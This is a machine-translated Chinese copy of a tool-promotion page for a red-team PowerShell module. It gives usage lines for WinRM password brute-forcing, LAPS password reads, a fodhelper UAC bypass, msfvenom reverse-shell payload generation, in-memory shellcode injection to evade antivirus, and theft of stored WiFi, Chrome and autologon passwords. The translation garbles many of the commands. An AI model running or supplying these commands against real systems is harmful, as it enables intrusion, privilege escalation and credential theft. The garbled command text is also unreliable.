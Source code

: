 # PowerShell 红队:PowerShell 函数集合

> 原文：<https://kalilinuxtutorials.com/powershell-red-team/>

[![PowerShell Red Team : Collection Of PowerShell Functions](img//ea9b9ddd8e0a29b35863c575aca49e03.png "PowerShell Red Team : Collection Of PowerShell Functions")](https://1.bp.blogspot.com/-M0TLgf-kXjs/X6MLYOEO9HI/AAAAAAAAH7w/cVSA0jFMc1ogE2swt26eCzLhvQr3ANR3wCLcBGAsYHQ/s728/1%25281%2529.png)

一个**红队队员**可能使用的 **PowerShell** 函数集合来从一台机器上收集数据或获得对一个目标的访问权。我为 RedTeamEnum 模块中包含的命令添加了 ps1 文件。这将允许您轻松地找到并使用一个命令，如果这就是您想要的。如果您想要整个模块，请在将 RedTeamEnum 目录和内容下载到您的设备后执行以下操作。

C:\PS> robocopy。\ RedTeamEnum $ env:user profile \ Documents \ windows powershell \ Modules \ RedTeamEnum *
**#这将把模块复制到一个便于导入的位置。如果您使用 OneDrive sync，您可能需要使用**$ env:user profile \ one drive \ Documents \ windows powershell \ Modules \ RedTeamEnum。

C:\ PS>Import-Module-Name RedTeamEnum-Verbose
**#这将导入模块中的所有命令。**

C:\ PS>Get-Command-Module RedTeamEnum
**#这将列出模块中的所有命令。**

*   Convert-Base64.psm1 是一个名为 states 的函数，用于将文本编码和/或解码为 Base64 格式。

C:\PS> Convert-Base64 -Value "将我转换为 Base64！"**-编码**
C:\ PS>Convert-Base64-Value " q 29 udmvydcbtzsb 0 bybiyxnlnjqh "**-解码**

*   ps1 是一个将 SID 值转换成用户名并将用户名转换成 SID 值的函数

C:\ PS > Convert-SID-Username tobor
**#以上示例将 to bor 转换为其 SID 值**

C:\ PS>Convert-SID-SID S-1-5-21-2860287465-2011404039-792856344-500
**#以上值将 SID 值转换为其关联的用户名**

*   Test-BruteZipPassword 是一个函数，它使用一个密码文件使用 7zip 暴力破解一个受密码保护的 zip 文件

C:\ PS > Test-bruteforcezip password-PassFile ' C:\ Users \ USER \ Downloads \ Applications \ pass.txt '-Path ' C:\ Users \ USER \ Downloads \ Applications \ KiTTY.7z '-Zip exe ' C:\ Program Files \ 7-Zip \ 7z . exe '
**#此示例使用 pass . txt 文件中的密码来破解受密码保护的 kitty . 7z 文件**

*   Test-BruteForceCredentials 是一个使用 WinRM 暴力破解用户密码的函数。

' c:\ PS > Test-BruteForceCredentials-计算机名 DC01.domain.com-use SSL-用户名' admin '，' administrator '-Passwd ' password 123！'-sleep minutes 5
**#此示例将使用 WinRM over HTTPS 测试针对远程计算机 DC01.domain.com 上的 admin 和 administrator 用户定义的一个密码，每次尝试之间的时间间隔为 5 分钟**

C:\ PS>Test-BruteForceCredentials-computer name File.domain.com-user file C:\ Temp \ users.txt-PassFile C:\ Temp \ rockyou.txt
**#此示例将针对 users . txt 文件中的每个用户名测试 rock you . txt 中的每个密码，而不**

*   Get-LdapInfo 是一个我非常引以为豪的函数，用于执行一般的 LDAP 查询。虽然在输出中将只显示两个属性，但是通过管道连接到 Select-Object -Property *或使用-Detailed 开关参数，可以看到与对象关联的所有属性。

C:\ PS > Get-LdapInfo-Detailed-SPNNamedObjects
**#以上返回返回对象的所有属性**

C:\ PS>Get-LdapInfo-domain controllers | Select-Object-Property ' Name '，' ms-Mcs-ADM pwd '
**#如果以 admin 身份运行，它将返回本地管理帐户的 LAPS 密码**

C:\ PS>Get-LdapInfo-list users 如果您希望显示结果的所有属性，需要使用下面的格式

C:\ PS>Get-LDAP info-all servers | Where-Object-Property logon count-gt1 | Select-Object-Property *

*   Get-NetworkShareInfo 是一个 cmdlet，用于检索信息和/或强力发现远程或本地计算机上可用的网络共享

C:\ PS > Get-NetworkShareInfo-ShareName C$
**#以上示例返回本地机器上共享 C $的信息
#结果**
**名称:** C$
**安装日期:**
**描述:**默认共享
**路径:** C:\
**计算机名:** TOBORDESKTOP
**状态:【T21**

*   Test-PrivEsc 是一个函数，可用于发现 HTTP 上的 WSUS 更新是否易受 PrivEsc 攻击，明文凭据是否存储在公共位置，AlwaysInstallElevated 是否易受 PrivEsc 攻击，是否存在未加引号的服务路径，以及服务的可能弱写权限的枚举。

C:\PS> Test-PrivEsc

*   Get-InitialEnum 是一个枚举 Windows 操作系统基础的功能，有助于更好地显示可能的弱点。

C:\PS> Get-InitialEnum

*   Start-SimpleHTTPServer 是一个用于托管 HTTP 服务器以下载文件的函数。这意味着类似于 pythons 的 SimpleHTTPServer 模块。目录不能通过 web 服务器。发出此命令时，将要托管以供下载的文件将来自您所在的当前目录。

C:\ PS > Start-simple HTTP Server
**#在 8000 端口打开 HTTP 服务器**

**#或**

C:\ PS>Start-simple HTTP Server-Port 80
**#在 80 端口打开 HTTP 服务器**

*   Invoke-PortScan.ps1 是用于扫描目标上所有可能的 TCP 端口的函数。我将在未来通过包含 UDP 以及定义端口范围的能力来进行改进。老实说，这款甚至不值得使用，因为它非常慢。线程是我的一个弱项，我计划用这个来解决这个问题。

C:\PS >调用-端口扫描-IP 地址 192.168.0.1

*   Invoke-PingSweep 是用于执行子网范围的 ping 扫描的函数。

C:\ PS > Invoke-ping sweep-Subnet 192 . 168 . 1 . 0-Start 192-End 224-Source 单数
**#注意:Source 参数仅在 IP 源路由值为" Yes "**

C:\ PS>Invoke-ping sweep-Subnet 10 . 0 . 0 . 0-Start 1-End 20-Count 2
**# Count 的默认值为 1**

C:\PS > Invoke

*   Invoke-UseCreds 是我创建的一个函数，用于简化在 pen 测试期间使用获得的凭证的过程。我使用-Passwd 而不是-Password，因为参数在定义时应该配置为安全字符串，而在使用该函数向字段中输入值时却不是这样。设置该值后，它会被转换为安全字符串。

**#以下命令将使用输入的凭据打开 msf.exe 可执行文件，作为用户 to bor**
C:\ PS>Invoke-use creds-Username ' OsbornePro \ to bor '-Passwd ' P @ ss w0 rd 1 '-Path。\msf.exe -Verbose

*   Invoke-FodHelperBypass 是一个函数，它在执行提升特权之前测试 UAC 旁路是否有效。这当然需要由本地管理员组的成员来运行，因为这种绕过提升了您所在的 shell 的特权。您可以定义要运行的程序，该程序将允许您执行 generaate msfvenom 有效负载以及 cmd 或 powershell，或者只是发出命令。

C:\ PS > Invoke-FodHelperBypass-Program " powershell "-Verbose

#或

C:\ PS>Invoke-FodHelperBypass-Program " cmd/C MSF . exe "-Verbose

*   Invoke-InMemoryPayload 用于使用内存注入的 AV 规避。这将要求运行者使用类似于以下示例的命令生成 msfvenom 有效负载，并将“[Byte[]] $buf”变量输入 Invoke-InMemoryPayloads“ShellCode”参数。

**#生成有效载荷使用**
MSF venom-p windows/meter preter/shell _ reverse _ TCP LHOST = 192 . 168 . 137 . 129 LPORT = 1337-f powershell

*   启动一个侦听器，使用“ShellCode”参数中的值，并运行命令来获得您的 shell。这还要求不启用某些内存保护。注意:注意 ShellCode 变量的值没有任何双引号。这是因为它需要一个字节数组。

c:\ PS > Invoke-InMemoryPayload-有效负载 0xfc，0x48，0x83，0xe4，0xf0，0xe8，0xc0，0x0，0x0，0x0，0x41，0x51，0x41，0x5

![](img//04d3c1cefd737471a67a5fd562451bb0.png)

*   Get-ClearTextPassword 用于获取缓存的密码、注册表中的 SNMP 密码、自动登录密码和存储在设备上的 WiFi 密码。只能从保存的位置提取当前用户的密码

**Get-cleartext password-All**

上述命令返回 cmdlet 能够得到的所有可能的结果。也可以搜索单个位置。例如

**Get-cleartext password-auto logon**

例如，您可以在搜索中定义多个位置

**Get-cleartext password-WiFi-SNMP-Chrome-password vault**

[**Download**](https://github.com/tobor88/PowerShell-Red-Team)